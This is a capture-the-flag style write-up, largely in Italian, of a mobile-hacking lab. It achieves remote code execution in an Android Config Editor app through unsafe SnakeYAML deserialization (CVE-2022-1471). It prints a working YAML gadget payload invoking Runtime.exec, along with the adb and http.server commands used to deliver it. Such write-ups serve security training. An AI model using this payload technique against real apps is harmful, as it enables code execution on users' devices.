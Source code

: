 # Config Editor

Achieve Remote Code Execution via a Config Editor app in Android by exploiting vulnerabilities in a third party library.

## Table of Contents

1. [Look Around](#look-around)
2. [Static Analysis](#static-analysis)
3. [Dynamic Analysis](#dynamic-analysis)
4. [Exploiting](#exploiting)
5. [Shell is the way](#shell-is-the-way)
6. [And now?](#and-now)
7. [Utils](#utils)
8. [References](#references)

## Look Around

L'applicazione viene utilizzata per leggere file con estensione `.yaml`

## Static Analysis

Considerazioni sul file `AndroidManifest.xml`

### Permissions

+ `READ_EXTERNAL_STORAGE`, `WRITE_EXTERNAL_STORAGE`, `MANAGE_EXTERNAL_STORAGE` , permessi per permettere all'applicazione di potere salvare, leggere e scrivere file sulla memoria esterna `sdcard`
+ `INTERNET` , utilizzata per accedere ad Internet

```xml
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
```

### Implicitly Exported Component

An implicitly exported component could allow access to the component Activity, MainActivity.
In questo caso, l'applicazione gestirà i link con scheme `file://`, `http://` e `https://` e file con estensione  `.yaml`

```xml
       <activity android:name="com.mobilehackinglab.configeditor.MainActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="file"/>
                <data android:scheme="http"/>
                <data android:scheme="https"/>
                <data android:mimeType="application/yaml"/>
            </intent-filter>
        </activity>
```

### MainActivity & yaml.load

`loadYaml` funzione interessante al suo interno: `Object deserializedData = yaml.load(inputStream);`
Vediamo, attraverso gli `import` nell'app e nelle subdirectory presenti `/org/yaml/snakeyaml` che il metodo `load`
proviene da SnakeYAML.
Da documentazione: `SnakeYAML is a YAML 1.1 processor for the Java Virtual Machine version 8+.`
Cercando su internet per SnakeYAML e Deserialization notiamo che [CVE](https://nvd.nist.gov/vuln/detail/CVE-2022-1471)

```txt
SnakeYaml's Constructor() class does not restrict types which can be instantiated during deserialization. Deserializing yaml content provided by an attacker can lead to remote code execution. We recommend using SnakeYaml's SafeConsturctor when parsing untrusted content to restrict deserialization. We recommend upgrading to version 2.0 and beyond.
```

Non sono stato in grado di trovare la versione esatta di SnakeYAML ma cercando per SnakeYaml's `SafeConsturctor` in `/org/yaml/snakeyaml` non troviamo occorrenze quindi ho presupposto fosse una buona strada da perseguire.

## Dynamic Analysis

Sanity check:

1. Crea un file `yaml`
2. Metti in ascolto un listener python sulla porta 8080
3. Simula una connessione http con un file yaml con adb
L'applicazione dovrebbe aprirsi e tenterà di leggere il file (se vuoto, l'output sarà vuoto)

Commands:

```sh
$linux> touch example.yaml
$linux> python3 -m http.server 8080
$linux> adb shell am start -a android.intent.action.VIEW -d  "http://$IP:8080/example.yaml" -n com.mobilehackinglab.configeditor/.MainActivity
```

## Exploiting

Adattamento SnakeYAML per la nostra App Android.

Nel path `/com/mobilehackinglab/configeditor/LegacyCommandUtil.java`
che ci può permettere tramite deserializzazione di richiamare LegacyCommandUtil ed eseguire comandi di sistema.

```java
public final class LegacyCommandUtil {
    public LegacyCommandUtil(String command) {
        Intrinsics.checkNotNullParameter(command, "command");
        Runtime.getRuntime().exec(command);
    }
}
```

Creiamo file `yaml`

```yaml
pwn: !!com.mobilehackinglab.configeditor.LegacyCommandUtil [ "/bin/touch /data/data/com.mobilehackinglab.configeditor/pwn.txt" ]
```

Testiamo questa RCE

```sh
$linux> touch pwn.yaml
$linux> python3 -m http.server 8080
$linux> adb shell am start -a android.intent.action.VIEW -d  "http://$IP:8080/pwn.yaml" -n com.mobilehackinglab.configeditor/.MainActivity
$linux> adb shell ls /data/data/com.mobilehackinglab.configeditor
output: pwn.txt # in listing file
```

<p align="center">
<img src="assets/pwn.png" width="500"/>
</p>

## Shell is the way

+ RCE yes, but where is the shell? method with c script and dalvikvm method

## And now?

RCE / ACE su utente Android non ci dà molti privilegi e non possiamo muoverci liberamente nel file system. Quali sono i passi successivi?

### Android Kernel Privesc & SandBox Escape

+ Android Kernel Privesc, Sandbox Escape, etc

## Utils

+ SemGrep Rules

## References

